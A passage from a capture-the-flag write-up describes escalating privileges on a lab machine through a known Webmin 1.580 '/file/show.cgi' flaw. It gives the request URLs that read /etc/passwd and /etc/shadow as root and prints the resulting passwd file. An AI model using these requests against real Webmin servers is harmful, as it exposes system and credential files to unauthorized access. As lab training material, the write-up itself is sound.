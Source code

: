 ## Task 6 - Privilege Escalation with Metasploit

I looked online to see any sort of possible exploits, and I found one!

Its a Metasploit exploit

`Webmin 1.580 — ‘/file/show.cgi’ Remote Command Execution (Metasploit)`

However, since we didnt really need to use it, since we only needed the root flag, I decided to find it manually.

Digging into this exploit, I found the official documentation of it

http://www.americaninfosec.com/research/dossiers/AISG-12-001.pdf

The documentation shows that adding `/file/show.cgi` to the URL allows you to read file locations (as root) when adding a file past the ‘show.cgi’

`http://localhost:10000/file/show.cgi/etc/passwd`

`http://localhost:10000/file/show.cgi/etc/shadow`

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
agent47:x:1000:1000:agent47,,,:/home/agent47:/bin/bash
mysql:x:111:118:MySQL Server,,,:/nonexistent:/bin/false
```
